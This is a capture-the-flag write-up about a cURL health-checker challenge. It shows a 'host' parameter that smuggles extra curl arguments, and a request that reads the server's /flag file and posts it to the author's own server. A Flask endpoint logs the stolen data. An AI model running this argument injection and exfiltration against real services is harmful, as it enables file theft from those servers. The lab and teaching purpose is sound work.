





## Investigation

The problem described a cURL based deployment checker.
They gave us the code for this problem and I've included it here if you wanted to try it yourself. Check it out in Local Code.

On opening up the website, you're presented with this page:



It just seems to cURL any URL you put into it. The only options in the two dropdowns on the left were Curl and Server01 so you
couldn't change anything there. All you could change was the URL passed into it.

Going through the code, you see that the flag is just a file in the root directory. At no point is that file imported or used anywhere
else. It just exists in the root directory.



This kinda problem is actually fairly straightforward because they closed off all other paths of inquiry. I might have usually tried
some SQL injection or messing around with JWT's. But because there isn't any of that, and there is no way to get the flag other than
grabbing it from the root directory, you can really only do one thing. Use cURL to make the server grab the file locally and send it
back. Because the server is executing the cURL request themselves, and the flag is just a file on the server, they'll have access to 
the file I need.

You can see in the code that they have a command class which stores the cURL command and executes it. Before they make the object
though, they see if the cURL input starts with 'http'. If not, they just point to themselves so the cURL request just returns the HTTP
of the Health Checker website itself.





The http check makes it slightly more difficult, I'll have to make sure I can execute what I need while still fulfilling their 
requirements.

cURL has a great man page that is user friendly. I went searching there on how to get local files and they gave me almost exactly
what I needed.

```
--data-binary <data>

(HTTP) This posts data exactly as specified with no extra processing whatsoever.

If you start the data with the letter @, the rest should be a filename. Data is posted in a similar manner as -d, --data does, except that newlines and carriage returns are preserved and conversions are never done.

Like -d, --data the default content-type sent to the server is application/x-www-form-urlencoded. If you want the data to be treated as arbitrary binary data by the server then set the content-type to octet-stream: -H "Content-Type: application/octet-stream".

If this option is used several times, the ones following the first will append data as described in -d, --data.

Example:

 curl --data-binary @filename https://example.com
```

Making some slight tweaks to their examples would get me the flag.

## Solution

I was having some issues using the input on their site so I decided to just hit their API directly with cURL. They pull a "host" 
parameter from the request which is what they put into their cURL command. Sending the flag back to my own terminal didn't seem
possible, but I could get them to grab the flag and send it to my own server. A Flask server I had set up for the CTF was going
to come into use again.

I needed the host parameter to start with http but also include the part where I get a file. cURL is very versatile though. I can 
make it start with a legitimate website to hit, and then include the part where I get a file and send it back.

I set the host parameter to

```
host=http://www.columbia.edu/~fdc/sample.html --data-binary @/flag https://MYOWNSERVER.com/healthflag
```

The whole cURL command I executed then was:

```
curl -X POST http://THEIRWEBSITE.com/api/curl -d "host=http://www.columbia.edu/~fdc/sample.html --data-binary @/flag https://MYOWNSERVER.com/healthflag"
```

First they would hit a sample website from Columbia University. This would fulfill the http requirement of the host parameter.
Then it would grab the flag by using the --data-binary option. It will take the local flag file and send it to my own server,
where I'll print the flag and it'll show up in my server logs.

The Flask endpoint I created just printed the request:

```
@app.route('/healthflag', methods=["PUT","POST"])
def getJWK():
    print('TEST')
    print(request.form)
    return ''
```

Executing the above cURL request with that endpoint printed the flag into the server logs.



Executing user input is inherently a dangerous thing. I've always been curious how sites like isitdownrightnow.com checked if a 
website was up. They must have many checks to make sure they're not opening themselves up to vulnerabilities just like these.